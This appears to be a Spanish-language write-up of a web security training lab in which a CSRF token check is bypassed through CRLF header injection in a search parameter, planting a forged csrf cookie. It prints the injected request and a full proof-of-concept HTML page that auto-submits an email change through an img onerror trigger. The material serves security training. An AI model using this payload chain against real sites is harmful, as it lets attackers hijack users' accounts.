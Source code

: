 `TAREA:`
Para resolver el laboratorio, utilice su servidor de exploits para alojar una página HTML que utilice un ataque CSRF para cambiar la dirección de correo electrónico del espectador.

Puede iniciar sesión en su propia cuenta utilizando las siguientes credenciales: `wiener:peter`

como siempre iniciamos sesión en el lab con las credenciales que nos proporcionan e interceptamos la solicitud para luego enviarla al repeater
![[Pasted image 20250710162852.png]]

después de interceptar la solicitud la enviamos al repeater y podemos tirar (Drop) la intercepción para no realizar ningún cambio 

podemos ver que tenemos tanto la `cookie` de inicio de sesión como el `csrf`
![[Pasted image 20250710163229.png]]

ahora realizamos una búsqueda y analizamos la solicitud para identificar sus parámetros
![[Pasted image 20250710163311.png]]

una ves tenemos la solicitud la enviamos al repeater para analizar la respuesta del lado del servidor. en este caso tenemos una respuesta `200 OK` y nos devuelve el parámetro `Set-cookie: LastSearchTerm` esta cookie contiene el parámetro de nuestra ultima búsqueda es decir `test` así que vamos a validar esto y si no cumple con la validación correcta podemos explotar esta vulnerabilidad y generar una cabecera dinámica que contenga el parámetro `Set-cookie`
![[Pasted image 20250710163437.png]]

realizamos la validación correspondiente y efectivamente obtenemos una respuesta `200 OK` donde el parámetro `Set-Cookie` contiene el valor `csrf:test`

la inyección del encabezado nos quedaría así:
```python
GET /?search=test%0d%0aSet-Cookie:%20csrf=test HTTP/2
```

por ejemplo también podrías crea una URL que use esta vulnerabilidad para inyectar una URL falsa. `csrf`cookie en el navegador de la víctima.

```python
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

![[Pasted image 20250710164155.png]]

ahora lo que tenemos que hacer es ir a la solicitud que contiene nuestra función de actualización de correo electrónico y vamos a generar un CSRF PoC 
![[Pasted image 20250710164512.png]]

primero vamos e eliminar la función de las etiquetas `<script>` para poder hacer uso de nuestra inyección 
![[Pasted image 20250710164700.png]]

ahora solo nos queda inyectar una fuente de imagen que haga un llamado a la url que será la web + el encabezado que hemos construido. nos quedaría algo así: 

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="t7TLNlTl0JbLuxmo3xN0Gn3XxKZpwwfz" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

donde
```python
<img src="https://0aac003e046af89e81ef842e00ce003f.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
seria nuestra inyección completa y maliciosa

`NOTA: Recuerda camviar tu valor de csrf token. por el valor de LastSearchTerm en mi caso es -test-  ` 
![[Pasted image 20250710165217.png]]


![[Pasted image 20250710170300.png]]